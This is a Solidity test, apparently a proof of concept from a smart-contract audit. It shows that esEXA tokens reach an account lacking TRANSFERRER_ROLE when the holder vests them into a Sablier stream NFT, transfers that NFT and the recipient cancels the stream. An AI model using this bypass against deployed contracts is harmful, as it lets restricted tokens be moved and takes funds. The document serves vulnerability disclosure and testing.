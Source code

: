 ```javascript

  function testTransferEsEXAWithoutTransferRole() external {
    uint256 amount = 1_000 ether;
    uint256 ratio = esEXA.reserveRatio();
    uint256 reserve = amount.mulWadDown(ratio);

    address sam = address(1001);
    address mark = address(1002);

    vm.label(sam, "sam");
    vm.label(mark, "mark");

    esEXA.mint(amount, sam);
    exa.transfer(sam, reserve);

    uint256[] memory streams = new uint256[](1);

    console2.log("EsEXA balance AFTER mark: %d , sam: %d", esEXA.balanceOf(mark), esEXA.balanceOf(sam));
    assertTrue(!esEXA.hasRole(esEXA.TRANSFERRER_ROLE(), mark));
    assertTrue(!esEXA.hasRole(esEXA.TRANSFERRER_ROLE(), sam));
    assertEq(esEXA.balanceOf(sam), amount);
    assertEq(esEXA.balanceOf(mark), 0);

    vm.startPrank(sam);
    exa.approve(address(esEXA), reserve);
    // mark will vest amount of esEXA
    streams[0] = esEXA.vest(uint128(amount), sam, ratio, esEXA.vestingPeriod());
    // Since the stream is set transferable when created and it is a NFT can be transfered to another person(mark).
    address(sablier).call(
                abi.encodeWithSignature("transferFrom(address,address,uint256)", sam, mark, streams[0])
            );
    vm.stopPrank();

    vm.prank(mark);
    
    // mark cancel the stream and get the esEXA. 
    esEXA.cancel(streams);

    console2.log("EsEXA balance BEFORE mark: %d , sam: %d", esEXA.balanceOf(mark), esEXA.balanceOf(sam));

    assertTrue(!esEXA.hasRole(esEXA.TRANSFERRER_ROLE(), mark));
    assertTrue(!esEXA.hasRole(esEXA.TRANSFERRER_ROLE(), sam));
    assertEq(esEXA.balanceOf(sam), 0);
    // Mark got the esEXA from sam without having TRANSFERRER_ROLE using a combination of esEXA::vest, sablier::transferFrom and esEXA::cancel
    assertEq(esEXA.balanceOf(mark), amount);

  }

```
